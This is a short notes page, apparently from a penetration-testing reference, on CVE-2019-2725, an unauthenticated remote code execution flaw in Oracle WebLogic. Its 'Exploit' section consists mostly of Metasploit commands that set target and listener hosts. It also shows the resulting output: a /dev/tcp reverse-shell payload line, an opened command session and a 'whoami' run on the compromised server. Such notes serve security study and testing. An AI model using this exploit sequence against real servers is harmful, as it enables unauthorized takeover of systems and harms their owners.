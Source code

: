 icon:fontawesome/solid/unlock-keyhole

# CVE-2019-2725

CVE-2019-2725 - Oracle WebLogic WLS9-async Remote Code Execution

Vulnerability in the Oracle WebLogic Server component of Oracle Fusion Middleware (subcomponent: Web Services). Supported versions that are affected are 10.3.6.0.0 and 12.1.3.0.0. Easily exploitable vulnerability allows unauthenticated attacker with network access via HTTP to compromise Oracle WebLogic Server. Successful attacks of this vulnerability can result in takeover of Oracle WebLogic Server.

## Exploit

```bash
msf5 use exploit/multi/misc/weblogic_deserialize_asyncresponseservice
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rhosts 10.10.10.13
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rport 7102
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set ssl true
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set lhost 10.10.10.1
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > run

[+] 0<&218-;exec 218<>/dev/tcp/10.10.10.13/4444;sh <&218 >&218 2>&218
[*] Started reverse TCP handler on 10.10.10.1:4444
[*] Generating payload...
[*] Sending payload...
[*] Command shell session 1 opened (10.10.10.1:4444 -> 10.10.10.13:21207) at 2020-05-06 09:46:12 +0200

whoami
oracle
```

## References

- [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-2725)
- [Oracle.com](https://www.oracle.com/security-alerts/alert-cve-2019-2725.html)
- [Tenable.com](https://www.tenable.com/cve/CVE-2019-2725)
